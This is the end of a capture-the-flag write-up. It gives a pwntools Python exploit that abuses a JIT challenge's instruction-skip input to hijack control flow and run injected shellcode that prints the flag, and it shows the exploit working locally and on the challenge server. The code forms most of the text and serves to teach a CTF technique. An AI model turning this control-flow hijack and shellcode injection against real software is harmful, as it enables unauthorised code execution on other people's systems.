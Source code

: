 ```python
from pwn import *
import sys

# add 364776757699490120

# Load shellcode - just reads 'flag.txt' then sends it to stdout
f = open("catflag", "rb")
flag_pls = f.read()
f.close()

p = process(sys.argv[1])
#p = remote('127.0.0.1', 4444)

# Attach with gdb
gdb.attach(p, '''
    break *jit+542
    continue
        ''')

# Add 6 instructions
for i in range(0, 6):
    print(p.recvuntil("Action: "))
    p.sendline("1")
    p.clean()
    p.sendline("add 364776757699490120")


# Evaluate/ call jit()
print(p.recvuntil("Action: "))
p.sendline("3")

p.recvuntil("How many instructions would you like to skip?")
p.sendline("1.2")

# We have (hopefully) hijacked control flow now into our shellcode.

p.clean()
# Send our shellcode to read()
p.sendline(b"\x90"*0x100 + flag_pls)

# Recieve the flag
print(p.recvall())
p.close()
```

Here's it working locally:
![25](https://user-images.githubusercontent.com/73792438/116258501-eb3ecc80-a76c-11eb-904f-33bea49bebc4.PNG)

And on the challenge server:

![26](https://user-images.githubusercontent.com/73792438/116258994-54bedb00-a76d-11eb-9343-b56d3b2addd0.PNG)

I don't know why i bothered censoring the flag when I just gave you the exploit, but oh well. 

Happy pwning!
